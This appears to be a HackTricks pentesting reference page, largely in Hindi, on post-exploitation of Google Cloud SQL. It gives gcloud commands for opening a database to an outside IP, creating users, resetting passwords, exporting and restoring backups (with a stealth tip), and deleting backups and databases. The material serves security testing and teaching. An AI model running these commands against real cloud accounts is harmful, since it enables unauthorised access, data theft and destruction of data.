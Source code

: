 # GCP - Cloud SQL Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud SQL

Cloud SQL के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

डेटाबेस से कनेक्ट करने के लिए आपको **बस डेटाबेस पोर्ट तक पहुंच की आवश्यकता है** और **यूजरनेम** और **पासवर्ड** पता होना चाहिए, कोई IAM आवश्यकताएँ नहीं हैं। इसलिए, एक आसान तरीका है कि यदि डेटाबेस का एक सार्वजनिक IP पता है, तो अनुमत नेटवर्क को अपडेट करें और **अपना खुद का IP पता इसे एक्सेस करने की अनुमति दें**।
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
यह भी संभव है कि **`--no-backup`** का उपयोग करके **डेटाबेस के बैकअप को बाधित** किया जा सके।

चूंकि ये आवश्यकताएँ हैं, मैं पूरी तरह से सुनिश्चित नहीं हूँ कि **`cloudsql.instances.connect`** और **`cloudsql.instances.login`** के लिए अनुमतियाँ क्या हैं। यदि आप जानते हैं तो एक PR भेजें!

### `cloudsql.users.list`

डेटाबेस के **सभी उपयोगकर्ताओं की सूची प्राप्त करें:**
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

यह अनुमति **डेटाबेस के अंदर एक नया उपयोगकर्ता बनाने** की अनुमति देती है:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

यह अनुमति **डेटाबेस के अंदर उपयोगकर्ता को अपडेट करने** की अनुमति देती है। उदाहरण के लिए, आप इसका पासवर्ड बदल सकते हैं:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

बैकअप में **पुरानी संवेदनशील जानकारी** हो सकती है, इसलिए उन्हें चेक करना दिलचस्प है।\
**एक बैकअप को** एक डेटाबेस के अंदर पुनर्स्थापित करें:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
इसे अधिक छिपे हुए तरीके से करने के लिए, एक नया SQL इंस्टेंस बनाना और वहां डेटा को पुनर्प्राप्त करना अनुशंसित है, बजाय वर्तमान में चल रहे डेटाबेस में।

### `cloudsql.backupRuns.delete`

यह अनुमति बैकअप को हटाने की अनुमति देती है:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**एक डेटाबेस का निर्यात करें** ताकि आप इसे वहां से एक्सेस कर सकें:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.instances.import`, `storage.objects.get`

**एक डेटाबेस आयात करें** (ओवरराइट) एक क्लाउड स्टोरेज बकेट से:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

db instance से एक डेटाबेस हटाएं:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **हमारे** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** का पालन करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}
